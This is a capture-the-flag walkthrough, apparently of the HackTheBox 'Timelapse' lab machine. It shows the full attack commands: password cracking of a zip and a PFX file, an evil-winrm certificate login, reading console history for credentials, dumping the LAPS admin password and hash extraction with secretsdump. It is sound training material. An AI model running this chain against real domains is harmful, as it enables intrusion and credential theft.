## NMAP
```bash
nmap -sC -sV -v -Pn -T4 -oN scans/nmap.txt timelapse.htb
```

```text
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-07-17 18:37:45Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
```

## SMB

Port `445` is open which means `SMB` is running.

```bash
smbclient -N -L //timelapse.htb
```

  

We can login anonymously to view the `Shares` folder.

```bash
smbclient -N //timelapse.htb/Shares
```

There's some documentation about LAPS.

  

In the `/Dev` directory there's a `winrm_backup.zip` file. We can use `get` to download it to our machine.

  

## ZIP Password

If we attempt to unzip it, it asks for a password. Let's brute force it using `fcrackzip`.

  

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

Within a few seconds the password `supremelegacy` is found!

## PFX Password

Inside the zip folder is a `.pfx` file. We can extract the certificate keys which can then be used to login via `winrm`. We first need to brute force the password to the `.pfx` file using a tool called [crackpkcs12](http://crackpkcs12.sourceforge.net/).

First download the files for the tool on `sourceforce`.

```bash
tar -xf crackpkcs12-0.2.11.tar.gz
cd crackpkcs12-0.2.11.tar.gz

sudo apt install libssl-dev

make
sudo make install
```

Brute force the password, this can take a few minutes depending on your hardware and the number of threads you specify.

```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt -t 100 legacyy_dev_auth.pfx 
```

It gets the password `thuglegacy`

  

To extract the certificates from the `.pfx` file we can follow [this](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) IBM documentation.

Extract private key.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
```

Extract certificate.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
```

## Initial Shell

Now we can use `evil-winrm` to get an interactive shell on the target.

```bash
evil-winrm -i timelapse.htb -S -c legacyy.crt -k legacyy.key
```

  

Start off by looking at our users and groups.

  

  

Unfortunately we can't use `winpeas` to enumerate the system because it's blocked by AV.

  

## Powershell Console History

We'll have to manually enumerate the system. We can use [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) as a guide.

```powershell
cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

  

We can execute commands via `svc_deploy` using `Invoke-Command`.

```powershell
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

Invoke-command -ComputerName localhost -Credential $c -Port 5986 -UseSSL -SessionOption $so -ScriptBlock {whoami}
```

Enter each of the commands one by one.

  

## LAPS

If we look at `svc_deploy`'s groups, it's part of the `LAPS_Readers` group. We can dump the local administrator password.

  

We can execute the following payload in the script block. In the console history file the command `Get-ADUser` was used. Instead we can use `Get-ADComputer` to dump the local computer object which contains the `ms-mcs-AdmPwd` property containing the administrator password. You can read more about it in the [Microsoft documentation](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adcomputer?view=windowsserver2022-ps).

```powershell
Get-ADComputer -Identity DC01 -Properties "ms-mcs-AdmPwd"
```

  

## Administrator

We can now login as the administrator.

```bash
evil-winrm -i timelapse.htb -S -u Administrator -p '}-%o9e8]&333-n+(VEi30J-}'
```

  

Dump system hashes.

```bash
impacket-secretsdump 'Administrator:}-%o9e8]&333-n+(VEi30J-}@timelapse.htb' -outputfile hashes
```